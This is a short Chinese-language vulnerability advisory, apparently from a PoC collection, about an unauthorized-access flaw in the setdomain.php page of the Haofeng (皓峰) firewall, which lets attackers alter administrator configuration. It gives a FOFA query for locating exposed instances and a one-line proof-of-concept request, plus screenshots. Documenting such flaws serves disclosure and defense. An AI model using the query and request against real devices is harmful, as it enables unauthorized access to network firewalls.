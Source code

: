 # 皓峰防火墙 setdomain.php 越权访问漏洞

## 漏洞描述

皓峰防火墙 setdomain.php 页面存在越权访问漏洞，攻击者通过漏洞可修改管理员等配置信息

## 漏洞影响

```
皓峰防火墙
```

## FOFA

```
app="皓峰防火墙系统登录"
```

## 漏洞复现

登录页面

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202110917093.png)

验证POC

```php
/setdomain.php?action=list
```

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202110916092.png)